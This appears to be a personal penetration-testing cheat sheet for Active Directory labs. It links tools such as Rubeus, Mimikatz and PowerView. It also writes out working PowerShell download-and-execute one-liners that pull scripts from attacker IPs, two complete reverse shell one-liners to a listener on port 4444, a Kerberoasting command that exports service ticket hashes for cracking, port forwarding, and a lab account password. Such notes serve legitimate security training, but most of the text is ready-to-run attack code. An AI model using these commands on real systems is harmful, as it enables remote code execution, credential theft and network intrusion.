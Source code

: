 # aaaxxqqq

https://www.thehacker.recipes/ad/movement/kerberos/asreproast

Rubeus ->  https://github.com/GhostPack/Rubeus


Metasploit
https://www.offsec.com/metasploit-unleashed/msfvenom/
https://www.beyondtrust.com/blog/entry/how-to-use-metasploit-for-command-control
https://github.com/lexisrepo/Shells
https://0xdf.gitlab.io/2022/07/16/htb-acute.html

iex ((New-Object Net.WebClient).DownloadString('http://10.10.14.244/ps.ps1'))
IEX([Net.Webclient]::new().DownloadString($url))
https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1



$client = New-Object System.Net.Sockets.TCPClient('10.10.50.101',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
$sm=(New-Object Net.Sockets.TCPClient('10.10.50.101',4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}



sharphound
https://github.com/SpecterOps/SharpHound
bloodhound -> 


impacket
https://github.com/fortra/impacket

[
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1)
shell
powershell.exe Invoke-WebRequest -Uri "http://10.10.15.253:8000/PowerView.ps1" -OutFile “C:\PowerView.ps1"

Get-DomainUser -SPN | Select-Object samaccountname,serviceprincipalname
Get-DomainUser -Identity svc_sql -SPN | Get-DomainSPNTicket –Format Hashcat | Out-File .\svc_sql_tgs_hash.txt


username-passs
$username = "inlanefreight\svc_sql"
$password = "lucky7"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ($username, $securePassword)


arp -a 
fping

portfwd add -l 7878 -p 445 -r 172.16.6.50

Mimikatz
https://github.com/ParrotSec/mimikatz/blob/master/x64/mimikatz.exe


runas /netonly /user:INLANEFREIGHT\tpetty powershell





